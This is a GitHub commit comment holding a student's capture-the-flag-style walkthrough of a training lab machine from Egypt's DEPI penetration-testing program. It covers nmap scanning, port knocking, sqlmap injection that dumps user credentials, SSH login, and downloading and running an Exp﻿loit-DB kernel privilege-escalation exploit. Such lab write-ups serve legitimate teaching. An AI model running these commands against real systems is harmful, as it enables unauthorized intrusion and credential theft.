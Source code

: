 > # DEPI Machine Walkthrough
> 
> 
> 
> This is a report of a penetration testing task we completed during the DEPI Training program. The training, sponsored by the National Telecommunications Regulatory Authority (NTRA) of Egypt, focused on the Vulnerability Analysis/Penetration Testing Track.
> 
> 
> 
> ## Walkthrough
> 
> 
> 
> ### Step 1: Discovering the Target IP
> 
> 1. Used the **MAC Address** to find the IP address with `netdiscover`.
> 
>    - **Target IP**: `192.168.207.133`
> 
> 
> 
> ### Step 2: Port Scanning
> 
> - Performed an Nmap scan: `nmap -sC -sV -p- <target_ip>`
> 
>   - Found only SSH port open.
> 
> 
> 
> ### Step 3: Brute-Force Attempts
> 
> - Tried logging in with username `smeagol` but without success.
> 
> - Attempted brute-forcing the password using **Hydra**, but it failed.
> 
> 
> 
> ### Step 4: Port Knocking
> 
> - Identified a hint: "Knock Friend To Enter. Easy as 1,2,3."
> 
> - Used Nmap to send port knocking sequences:
> 
>   ```bash
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 1 192.168.207.133
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 2 192.168.207.133
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 3 192.168.207.133
> 
> 
> 
> ### Step 5: Web Application Enumeration
> 
> 1. Accessed the service through a browser but found no useful information.
> 
> 2. Checked the `/robots.txt` file and inspected the page source.
> 
> 3. Discovered a **Base64-encoded path** in the source code. After decoding it twice, found the path:
> 
>                 http://10.10.207.133:1337/978345210/index.php
> 
> 4. Visited the path and found a login page.
> 
> 
> 
> ### Step 6: SQL Injection
> 
> 1. Used **Burp Suite** to intercept the login request and saved it as `post.txt`.
> 
> 2. Tested the form for SQL Injection vulnerabilities using **SQLmap**:
> 
>              sqlmap -r post.txt -p username
> 
> 3. Then Extracted the smeagol username and password.
> 
>             sqlmap -r post.txt -p username -D Webapp -T Users --dump
> 
> 
> 
> ### Step 7: SSH Access and Privilege Escalation
> 
> 1. Logged into the machine via SSH using the credentials obtained.
> 
> 2. Attempted to access the /root directory but was unauthorized.
> 
> 3. Gathered OS and kernel information:
> 
>          uname -a
> 
> 4. Used searchsploit to find exploits for the kernel version:
> 
>          searchsploit ubuntu 14.04
> 
> 5. Selected and downloaded an exploit (39166.c) from Exploit-DB:
> 
>        wget https://www.exploit-db.com/download/39166
> 
> 6. Compiled and executed the exploit:
> 
>        gcc 39166.c -o exploit
> 
>        chmod +x exploit
> 
>        ./exploit
> 
> 7. Successfully gained root privileges and accessed the flag in the /root directory. 

 _Originally posted by @0xPr0fx in [e125ebc](https://github.com/0xPr0fx/DEPI/commit/e125ebc049c007b7b2af0286775b4fbd645d454a#commitcomment-149742813)_

